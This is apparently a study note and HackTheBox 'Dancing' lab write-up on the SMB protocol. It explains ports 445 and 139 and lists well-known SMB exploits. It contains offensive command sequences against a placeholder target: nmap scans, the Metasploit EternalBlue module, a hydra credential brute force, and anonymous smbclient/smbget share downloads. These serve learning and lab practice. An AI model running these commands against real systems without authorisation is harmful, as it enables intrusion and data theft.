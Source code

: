 ```yaml
---
layout: note
title: "Server Message Block(SMB)"
description: "is a communication protocol"
tags: [smb, network, client-server]
date: 2025-07-25
---
```


# Server Message Block(SMB)
_The Server Message Block (SMB) protocol is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network_

- **SMB** a crucial protocol in Windows environments.
- Known as a response-request protocol, the SMB protocol is one of the most common methods used for network communications.
- The client sends an SMB request to the server to initiate the connection.
- When the server receives the request, it sends an SMB response back to the client, establishing the communication channel necessary for a two-way conversation.(similar to SYN-ACK connection)
- Once it is granted access, the client can access the required resource for reading, writing, executing and so on.
- Allowing remote access to directories and files (like \\server\share).
- SMB runs directly over **TCP/IP** and uses **port 445**.
- It also uses **port 139** which is kinda old through this service **"NetBIOS"**.


# Approach
- **Scan for Open SMB Ports**
```bash
nmap -p 445,139 <target_IP>
```
- **Checks for SMB Version** like if SMBv1 is enabled
```bash
nmap --script smb-protocols -p 445 <target_IP>
```
- **Exploit with Metasploit** for instance the *EternalBlue* exploit is available on **Metasploit**.
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_IP>
exploit
```
- Brute-Force Weak Credentials (if SMB allows login):
```bash
hydra -L users.txt -P passwords.txt smb://<target_IP>
```

## More SMB commands
- *`smbclient` - ftp-like client to access SMB/CIFS resources on servers*
- List SMB Shares (anonymous login):
```bash
smbclient -L //<target_IP> -N
```
    - `-L`: List available shares
    - `-N`: No password (anonymous login), Bypasses authentication if guest access is allowed.
- Access a Share:
```bash
smbclient //<target_IP>/sharename -N
```
- Download Files from SMB:
```bash
smbget -R smb://<target_IP>/sharename -U ""
```
    - `-R`: Recursive download, Downloading Files Recursively (Without Interactive Login), Fetches all files/subdirectories in the share.
    - `-U ""`: Blank username, Forces anonymous login (no password).

- *When we connect to the `smbclient`, we can do the following*:
    - List files:
    ```bash
    ls
    ```
    - Download a file:
    ```bash
    get <file>
    ```
    - Upload a file:
    ```bash
    put <file>
    ```
    - Change Directory:
    ```bash
    cd <dir>
    ```
    - Lol 😀 just exit:
    ```bash
    exit
    ```
<br>

## HackTheBox Lab: Dancing
![htb dancing](/assets/img/htb-dancing.PNG){: .writeup-image}
- One of the interesting question asked was the following:
    - *What is the service name for port 445 that came up in our Nmap scan?*
    ![htb dancing](/assets/img/htb-dancing(1).PNG){: .writeup-image}
    - The only important things are the ones that i have highlighted under this context.
    - Also, allow me to explain the commands and tags i used:
    - `nmap`: network mapping utility.
    - `-Pn`: This option tells Nmap to skip the host discovery phase (By default, Nmap tries to determine if a host is up before scanning it), and also useful in environments where ICMP (ping) responses are blocked.
    - `-A`: It provides a more comprehensive analysis of the target.
    - Now the answer to the question above is *microsoft-ds*. I mention this because i only knew a little regarding that service, and hence i thought i should include the information about that service here:
        - The "DS" (Directory Services) part of the name is crucial.
        - Port 445 isn't just for file sharing; it's a fundamental channel for **Active Directory communication**.
        - But, basically *microsoft-ds* is When a client wants to connect to a share using the modern method, it talks directly to the *microsoft-ds* service on **port 445**.
        - It is also, enabled by default. The standard for modern SMB.
        - This is in contrast to, NetBIOS Session which is an older service running on **port 139**, as i mentioned above.
    - And the following picture shows how i found the **root flag**:
    ![htb dancing](/assets/img/htb-dancing(2).PNG){: .writeup-image}
        - `-L`: List all the shares present in the remote server. It is an initial step for RECON.
        - `-N`: Anonymous login (and also by pressing enter)
    ![htb dancing](/assets/img/htb-dancing(3).PNG){: .writeup-image}
    - I have highlighted the **commands**.
    



## Why is SMB vulnerable?
- In 2017, the WannaCry and Petya ransomware attacks exploited a vulnerability in SMB 1.0 that made it possible to load malware on vulnerable clients and then propagate the malware across networks.
- **Famous SMB Exploits**
    - *EternalBlue (MS17-010)* -> Exploits SMBv1 buffer overflow, and hence allowed for Remote Code Execution (RCE).
    - *SMBGhost (CVE-2020-0796)* -> SMBv3 compression flaw, and the impact of the exploit was RCE, DoS.
    - *SMB Relay Attacks* -> Forwards SMB auth to another machine, and the impact of this was Credential theft, lateral movement.
    - *SambaCry (CVE-2017-7494)*-> Linux Samba RCE, which allowed for a Remote shell.